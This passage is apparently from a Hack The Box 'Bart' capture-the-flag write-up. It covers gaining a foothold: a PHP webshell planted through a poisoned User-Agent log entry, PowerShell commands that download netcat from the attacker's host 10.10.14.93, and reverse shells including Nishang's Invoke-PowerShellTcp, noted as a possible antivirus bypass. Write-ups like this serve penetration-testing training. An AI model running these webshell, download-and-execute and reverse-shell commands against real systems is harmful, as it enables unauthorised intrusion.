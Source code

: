 #### 5.1. Webshell
```
# php='<?php echo exec($_GET["cmd"]);?>'
# site='http://internal-01.bart.htb/log/log.php'
# http -b "$site?filename=backdoor.php&username=harvey" User-Agent:"$php"
# http -b http://internal-01.bart.htb/log/backdoor.php?cmd=whoami
[2018-05-03 01:15:19] - harvey - nt authority\iusr
```


#### 5.2. Netcat listener
```
# ncat -nlvp 9999
...
Ncat: Connection from 10.10.10.81.
Ncat: Connection from 10.10.10.81:51637.
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\internal-01\log>
```


#### 5.3. Reverse shell (download and execute NC 64bit)
```
# payload="powershell IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.93:8888/nc64.exe', 'nc64.exe')"
# http -b http://internal-01.bart.htb/log/backdoor.php?cmd="$payload"
# http -b http://internal-01.bart.htb/log/backdoor.php?cmd="nc64.exe 10.10.14.93 9999 -e cmd.exe"
```


#### 5.4. Direct shell alternative (possible AV bypass)

1. PS1: `https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1`
2. Edit: `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.93 -Port 9999`
3. Run: `Powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.93:8888/Invoke-PowerShellTcp.ps1')`
4. Run64: `c:\Windows\SysNative\WindowsPowerShell\v1.0\Powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.93:8888/Invoke-PowerShellTcp.ps1')` check with `PS > [environment]::Is64BitProcess`
